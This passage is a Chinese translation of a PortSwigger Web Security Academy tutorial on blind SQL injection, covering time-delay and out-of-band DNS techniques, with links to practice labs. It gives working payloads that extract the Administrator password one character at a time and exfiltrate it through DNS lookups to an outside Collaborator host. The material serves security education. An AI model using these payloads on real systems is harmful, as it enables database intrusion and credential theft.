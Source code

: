 ```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

其中第一个输入将不会触发延时，因为条件 `1=2` 为假，第二个输入将触发10秒的延时，因为条件 `1=1` 为真。

使用这项技术，我们可以用已经描述过的方式来检索数据，系统地一次测试一个字符：

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

> 注意
>
> 在SQL查询中触发时间延迟的方法有很多种，不同的技术适用于不同类型的数据库。更多细节，请参见 [SQL 注入备忘单](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

> 实验：[带时间延迟的 SQL 盲注](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

> 实验：[带时间延迟和信息检索的 SQL 盲注](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

## 使用带外技术（OAST）利用SQL盲注

现在，假设应用程序执行相同的 SQL 查询，但是采用异步方式处理。应用程序继续使用原始线程处理用户请求，并使用另一个线程执行使用追踪 cookie 的 SQL 查询。该查询依然容易受到 SQL 注入的攻击，但是到目前为止所介绍的技术都不起作用：应用程序的响应并不取决于查询是否返回任何数据，也不取决于数据库是否发生错误，更不取决于执行查询所花费的时间。

在这种情况下，通常可以通过触发带外网络交互到你控制的系统来利用 SQL 注入漏洞。如前所述，可以根据注入的条件有条件地触发这些操作，一次推断一位信息。但是更强大的是，数据可以在网络交互本身中直接泄漏。

可以使用多种网络协议来实现此目的，但最有效的通常是 DNS。这是因为很多生产网络都允许 DNS 查询自由发出，因为它们对于生产系统的正常运行至关重要。

使用带外技术最简单、最可靠的方法是使用 [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)。这是一台提供各种网络服务（包括 DNS）自定义实现的服务器，并允许你检测由于将单个 payload 发送给易受攻击的应用程序而导致的网络交互何时发生。 [Burp Suite Professional](https://portswigger.net/burp/pro) 内置对 Burp Collaborator 的支持，无需进行配置。

触发 DNS 查询的技术与所使用的数据库类型是高度相关。在 Microsoft SQL Server 中，可以使用如下的输入来在指定域上引起 DNS 查找：

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

这将导致数据库对以下域执行查找：

```sql
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

你可以使用 Burp Suite 的 [Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) 生成一个唯一的子域，并轮询 Collaborator 服务器以确认何时进行任何的 DNS 查找。

> 实验：[带外交互的 SQL 盲注](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

在确定了触发带外交互的方法后，你就可以使用带外从易受攻击的应用程序中窃取数据。例如：

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
